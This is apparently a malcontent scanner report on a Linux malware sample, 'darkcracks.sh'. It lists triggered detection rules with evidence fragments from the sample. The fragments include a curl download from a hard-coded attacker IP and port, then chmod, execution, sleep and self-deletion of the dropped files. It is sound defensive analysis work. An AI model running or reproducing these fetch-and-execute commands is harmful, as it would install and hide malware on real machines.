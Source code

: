 ## linux/2024.Darkcracks/darkcracks.sh [🛑 CRITICAL]

|   RISK   |                                                                                 KEY                                                                                 |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#curl_chmod_relative_run_tiny)                     | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/hidden_paths/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/hidden_paths/chdir-unusual.yara#cd_val_obsessive)         | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [evasion/self_deletion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_sleep_delete.yara#run_sleep_delete) | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip)                                         | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [c2/addr/http_ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/http-ip.yara#http_hardcoded_ip)                                              | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| HIGH     | [c2/addr/ip_port](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip_port.yara#hardcoded_ip_port)                                              | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#hardcoded_ip)                                                             | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell)                                                    | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell)                    | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val)                                            | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val)                                                        | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod)                                     | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| LOW      | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path)                                                               | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url)                                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                                        | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

